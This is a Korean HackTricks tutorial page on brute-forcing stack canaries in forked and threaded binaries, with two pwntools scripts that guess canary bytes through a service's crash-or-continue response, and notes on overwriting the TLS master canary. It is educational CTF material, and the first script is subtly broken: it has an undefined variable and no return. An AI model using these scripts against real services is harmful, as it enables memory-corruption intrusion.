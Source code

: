 # BF Forked & Threaded Stack Canaries

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**당신이 카나리와 PIE(위치 독립 실행 파일)로 보호된 바이너리에 직면하고 있다면, 이를 우회할 방법을 찾아야 할 것입니다.**

![](<../../../.gitbook/assets/image (865).png>)

{% hint style="info" %}
**`checksec`**는 바이너리가 카나리로 보호되고 있다는 것을 찾지 못할 수 있습니다. 만약 이것이 정적으로 컴파일되었고 함수를 식별할 수 없다면 말입니다.\
그러나 함수 호출의 시작 부분에서 스택에 값이 저장되고 이 값이 종료 전에 확인되는 것을 발견하면 수동으로 이를 알 수 있습니다.
{% endhint %}

## Brute force Canary

간단한 카나리를 우회하는 가장 좋은 방법은 바이너리가 **새로운 연결을 설정할 때마다 자식 프로세스를 포크하는 프로그램**인 경우입니다(네트워크 서비스). 왜냐하면 연결할 때마다 **같은 카나리가 사용되기 때문입니다.**

따라서 카나리를 우회하는 가장 좋은 방법은 **문자별로 무차별 대입**하는 것이며, 추측한 카나리 바이트가 올바른지 확인하기 위해 프로그램이 충돌했는지 아니면 정상 흐름을 계속하는지를 확인할 수 있습니다. 이 예제에서 함수는 **8바이트 카나리(x64)를 무차별 대입**하고 올바르게 추측한 바이트와 잘못된 바이트를 **응답**이 서버에 의해 반환되는지를 **확인**하여 구별합니다(다른 상황에서는 **try/except**를 사용할 수 있습니다):

### Example 1

이 예제는 64비트로 구현되었지만 32비트로 쉽게 구현될 수 있습니다.
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary
```
### Example 2

이것은 32비트에 대해 구현되었지만, 쉽게 64비트로 변경할 수 있습니다.\
또한 이 예제에서는 **프로그램이 입력의 크기를 나타내는 바이트와 페이로드를 먼저 기대합니다.**
```python
from pwn import *

# Here is the function to brute force the canary
def breakCanary():
known_canary = b""
test_canary = 0x0
len_bytes_to_read = 0x21

for j in range(0, 4):
# Iterate up to 0xff times to brute force all posible values for byte
for test_canary in range(0xff):
print(f"\rTrying canary: {known_canary} {test_canary.to_bytes(1, 'little')}", end="")

# Send the current input size
target.send(len_bytes_to_read.to_bytes(1, "little"))

# Send this iterations canary
target.send(b"0"*0x20 + known_canary + test_canary.to_bytes(1, "little"))

# Scan in the output, determine if we have a correct value
output = target.recvuntil(b"exit.")
if b"YUM" in output:
# If we have a correct value, record the canary value, reset the canary value, and move on
print(" - next byte is: " + hex(test_canary))
known_canary = known_canary + test_canary.to_bytes(1, "little")
len_bytes_to_read += 1
break

# Return the canary
return known_canary

# Start the target process
target = process('./feedme')
#gdb.attach(target)

# Brute force the canary
canary = breakCanary()
log.info(f"The canary is: {canary}")
```
## Threads

같은 프로세스의 스레드는 **같은 카나리 토큰을 공유**하므로, 이진 파일이 공격이 발생할 때마다 새로운 스레드를 생성하면 카나리를 **무차별 대입**할 수 있습니다.&#x20;

게다가, 카나리로 보호된 **스레드 함수에서의 버퍼 오버플로우**는 **TLS에 저장된 마스터 카나리**를 **수정**하는 데 사용될 수 있습니다. 이는 스레드의 **스택**에서 **bof**를 통해 TLS가 저장된 메모리 위치에 도달할 수 있을 가능성이 있기 때문입니다.\
결과적으로, 두 개의 동일한 카나리(수정된 카나리)가 사용되기 때문에 완화 조치는 무용지물이 됩니다.\
이 공격은 다음의 글에서 수행됩니다: [http://7rocky.github.io/en/ctf/htb-challenges/pwn/robot-factory/#canaries-and-threads](http://7rocky.github.io/en/ctf/htb-challenges/pwn/robot-factory/#canaries-and-threads)

또한, [https://www.slideshare.net/codeblue\_jp/master-canary-forging-by-yuki-koike-code-blue-2015](https://www.slideshare.net/codeblue\_jp/master-canary-forging-by-yuki-koike-code-blue-2015)에서 TLS가 일반적으로 **`mmap`**에 의해 저장되며, **스레드**의 **스택**이 생성될 때도 `mmap`에 의해 생성된다는 언급이 있습니다. 이는 이전 글에서 보여준 것처럼 오버플로우를 허용할 수 있습니다.

## Other examples & references

* [https://guyinatuxedo.github.io/07-bof\_static/dcquals16\_feedme/index.html](https://guyinatuxedo.github.io/07-bof\_static/dcquals16\_feedme/index.html)
* 64 비트, PIE 없음, nx, BF 카나리, 메모리에 ROP를 작성하여 `execve`를 호출하고 그곳으로 점프합니다.
